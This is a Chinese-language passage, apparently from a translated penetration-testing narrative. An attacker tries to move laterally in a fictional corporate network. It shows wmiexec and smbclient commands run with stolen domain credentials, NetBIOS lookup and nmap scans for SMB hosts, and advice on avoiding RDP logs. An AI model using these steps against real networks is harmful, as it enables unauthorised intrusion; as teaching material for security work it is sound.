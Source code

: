 
如果我们回到前面执行的nmap扫描，我们可以在管理器的工作站上进行筛选：
```
root@PIspy:# grep "192.168.1.25" result_shop.gnmap 
Ports: 135/open/tcp//msrpc///, 139/open/tcp//netbios-ssn///,
445/open/tcp//microsoft-ds///
```

RDP在机器上没有打开，这并不奇怪。它主要用于服务器。然而，135号端口是开放的！我们必须走老路：通过RPC执行命令行。使用图形界面（RDP）似乎是一个更简单的选择，但它确实有各种限制。

例如，一次只有一个用户可以打开交互式会话。我们必须耐心地等待Dvoxon去午休，然后才能尝试一种偷偷摸摸的连接。

另外，RDP连接有其专用的日志文件，因此调查人员更容易准确地查明漏洞的确切时间。结合各方因素，这也是更倾向选择RPC命令执行的原因。

我们将依赖Impacket框架(工具下载链接https://github.com/CoreSecurity/impacket)中名为wmiexec的工具在机器上获得交互式提示，并通过RPC执行简单的命令。
```
root@PIspy:# wmiexec.py dvoxon:Bird123\!@192.168.1.25
Impact v0.9.15 – Copyright 2002-2016 Core Security Technologies
[*] SMBv3.0 dialect used
[-] rpc_s_access_denied
```

凭据有效。但是，似乎dvoxon在计算机上没有足够的权限来远程执行命令。
要么是这个，要么是UAC的特性限制了我们的潜在范围。微软设置了UAC（用户访问控制）来限制通过RPC和WinRM执行远程命令的权限。因此，也许dvoxon确实是管理组的一部分，但是由于UAC的原因，我们不得不使用低特权上下文。

无论如何，我们会尝试另一条路。工作站上可能有网络共享吗？也许有一个文件夹里有很有价值的信息：
```
root@PIspy:# smbclient -L 192.168.1.25 -U GBSHOP\\dvoxon%Bird123!
Domain=[GBSHOP] OS=[Windows 10 Pro 14393] Server=[Windows 10 Pro 6.3]
Sharename Type Comment
--------- ---- -------
ADMIN$ Disk Remote Admin
C$ Disk Default share
IPC$ IPC Remote IPC
```

好吧，也许这次不行。ADMIN$、C$和IPC$是管理员用户只能使用的默认共享（即远程共享）。基本上，我们有有效的域凭据，但受少数可能的目标限制…请稍候！

我们手头确实有其他候选人。还记得经理试图访问的服务器–SV0078吗？

让我们在那台机器上碰碰运气吧。实际上，让我们更大胆些。我们将瞄准所有可能的与SV0078一样托管在同一个网络的服务器。为此，我们首先将SV0078的NetBIOS名称解析为常规IP地址。
```
root@PIspy:# nmblookup SV0078
10.10.20.78 SV0078<00>
```

然后我们执行一个快速的nmap扫描，查找运行在同一网络上的机器（我们停留在/24段进行快速扫描）。

作为分支管理人员dvoxon对这些服务器中的任何一个拥有本地管理员权限，这不太可能，因此我们将只查找承载网络共享的服务器，即具有开放445端口的服务器：
```
root@PIspy:# nmap 10.10.20.0/24 -p 445 -oA 445_servers
Starting Nmap 7.01 ( https://nmap.org ) at 2017-03-19
Nmap scan report for 10.10.20.78
PORT STATE SERVICE
445/tcp open microsoft-ds
Nmap scan report for 10.10.20.199
PORT STATE SERVICE
445/tcp open microsoft-ds
[…]
```
